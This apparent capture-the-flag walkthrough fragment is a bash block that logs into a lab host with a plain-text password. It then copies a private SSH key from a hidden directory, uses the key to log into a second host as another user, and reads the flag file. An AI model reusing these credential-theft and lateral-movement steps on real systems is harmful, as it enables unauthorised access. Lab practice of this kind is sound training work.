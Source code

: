 ```bash
ssh ctf@172.22.22.103         # пароль: ctfpass
mkdir -p ~/.ssh
cp /home/ctf/.hidden/id_rsa_user4 ~/.ssh/id_rsa
chmod 600 ~/.ssh/id_rsa
ssh -i ~/.ssh/id_rsa access@172.22.22.104
cat FLAG.txt
